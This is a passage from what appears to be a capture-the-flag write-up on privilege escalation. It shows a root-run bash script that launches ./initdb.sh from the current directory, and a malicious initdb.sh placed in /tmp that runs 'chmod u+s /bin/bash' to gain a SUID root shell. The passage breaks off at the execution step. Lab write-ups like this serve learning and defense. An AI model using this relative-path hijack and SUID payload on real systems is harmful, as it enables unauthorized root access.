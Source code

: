 A bash script which appears to be checking the status of a non-existent database service. If the database service is not running it will execute `initdb.sh` from the users current working directory. This is not a safe method of executing a script. The secure method would use the absolute path of the script or binary. It should be possible to hijack this call to run the script by creating one in a directory the current user controls.

```bash
dvir@headless:~$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

# Creating malicious initdb.sh

I created a file called `initdb.sh` in the '/tmp' directory and granted it executable permissions. The contents of the script used chmod to grant bash root access for all users. If `syscheck` is executed while `/tmp` is the current working directory it should execute the malicious `initdb.sh` as root.

```
dvir@headless:/tmp$ nano initdb.sh
dvir@headless:/tmp$ chmod +x initdb.sh 
dvir@headless:/tmp$ cat initdb.sh 
chmod u+s /bin/bash
```

# Executing syscheck with SUDO
